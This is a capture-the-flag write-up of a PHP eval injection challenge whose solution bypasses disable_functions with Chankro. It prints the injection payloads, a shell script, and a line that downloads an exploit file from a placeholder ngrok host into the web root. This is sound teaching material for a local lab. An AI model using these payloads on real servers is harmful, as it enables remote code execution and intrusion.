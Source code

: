 ```yaml
---
title: Pwn2Win - CmonSeemyVulns - Writeup
tags: pwn2win web php disable_functions chankro
---
```


# Description

![2021-05-30_21-03](https://user-images.githubusercontent.com/84577967/120118699-267d5280-c194-11eb-8fae-0fec1de1b704.png)

We were given the source code and the Dockerfile, we can build it locally and work on it directly on our own system.

[c_mon_see_my_vulns](https://github.com/ab2pentest/ctfwriteups/files/6566856/c_mon_see_my_vulns_70097e678d572b03e8098868191037f5c3518ca4a8d0512573845db8a293a153.tar.gz)

# Code Review

![2021-05-30_20-54](https://user-images.githubusercontent.com/84577967/120118712-31d07e00-c194-11eb-9ca7-dea97992fbed.png)

Snipped code from: index.php (Only PHP Part !)

![code](https://user-images.githubusercontent.com/84577967/174141852-b43da8d4-6069-43a4-a93f-406eb0b44b37.png)

The 7th line of the code appears to contain an `eval` function that is called within the `do_calcs` function. 
This function is called in line 17 of the code. Before we can examine this further, we need to check the 4th line of the code, which appears to contain a regular expression pattern. 
This suggests that our PHP code must be placed within `{{PHP EVAL CODE}}` in order to be evaluated properly.

![code](https://user-images.githubusercontent.com/84577967/174358220-78ffee4d-d1ee-49f5-a2c8-4b474068e8b5.png)

# Solution

Let's try to send a simple payload {% raw %}`200,{{phpinfo()}}`{% endraw %}

![phpinfo](https://user-images.githubusercontent.com/84577967/174358466-4c209820-f9e6-48ca-892a-030d8d922abf.png)

This simple `phpinfo` function is going to be executed

![2021-05-30_21-11](https://user-images.githubusercontent.com/84577967/120118671-fdf55880-c193-11eb-9db9-0f1846e00f00.png)

But if we take a look on the disabled functions list, we see a list of functions that are restricted or not available for use.

```
exec,system,passthru,shell_exec,escapeshellarg,escapeshellcmd,proc_close,proc_open,dl,popen,show_source,posix_kill,posix_mkfifo,posix_getpwuid,posix_setpgid,posix_setsid,posix_setuid,posix_setgid,posix_seteuid,posix_setegid,posix_uname,pcntl_exec,expect_popen
```

In cases where we need to bypass disabled functions, we can use [Chankro](https://github.com/TarlogicSecurity/Chankro)

First let's build our payload:

```bash
python2 chankro.py --arch 64 --input shell.sh --path /var/www/html --output exploit.txt
```

The shell.sh content:

```
#!/bin/sh
/readflag > /var/www/html/flag.txt
```

Now that we have saved the shell, we can host it on a local web server using PHP or Python.

```
200,{{file_put_contents("/var/www/html/exploit.php",file_get_contents("http://XXXXXXXXX.ngrok.io/exploit.txt"),FILE_APPEND)}}
```

![payload](https://user-images.githubusercontent.com/84577967/174358048-7ea473ea-06b6-407b-9f1e-e89ff5b433ad.png)

After that we can browser the file http://127.0.0.1:1337/exploit.php

# Flag

We should be able to retrieve the flag easily http://127.0.0.1:1337/flag.txt
